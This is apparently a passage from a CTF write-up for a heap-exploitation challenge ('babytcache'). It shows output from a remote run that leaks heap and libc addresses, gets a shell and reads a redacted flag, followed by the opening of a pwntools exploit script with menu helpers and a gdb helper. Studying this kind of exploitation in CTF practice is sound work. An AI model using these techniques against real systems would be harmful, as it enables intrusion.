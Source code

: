 ```sh
REMOTE PROCESS
[+] Opening connection to 51.158.118.84 on port 17002: Done
[*] Heap base: 0x55de298cb000
[*] Libc base: 0x7fbf7f248000
[*] Switching to interactive mode
$ ls
Dockerfile
babytcache
babytcache.c
beast.toml
flag.txt
post-build.sh
public
setup.sh
$ cat flag.txt
CTF{REDACTEDREDACTEDREDACTED}
$ 
```

### Full Exploit

```python
#!/usr/bin/env python2

from pwn import *

BINARY = './babytcache'
HOST, PORT = '51.158.118.84', 17002

elf = ELF(BINARY)
libc = ELF('./libc.so.6')

def start():
  if not args.REMOTE:
    print "LOCAL PROCESS"
    return process(BINARY)
  else:
    print "REMOTE PROCESS"
    return remote(HOST, PORT)

def get_base_address(proc):
  return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

def debug(breakpoints):
    script = "handle SIGALRM ignore\n"
    PIE = get_base_address(p)
    script += "set $_base = 0x{:x}\n".format(PIE)
    for bp in breakpoints:
        script += "b *0x%x\n"%(PIE+bp)
    gdb.attach(p,gdbscript=script)


def add(idx, size, data):
  p.sendlineafter('>> ', '1')
  p.sendlineafter(':\n', str(idx))
  p.sendlineafter(':\n', str(size))
  p.sendafter(':\n', data)

def edit(idx, data):
  p.sendlineafter('>> ', '2')
  p.sendlineafter(':\n', str(idx))
  p.sendlineafter(':\n', data)

```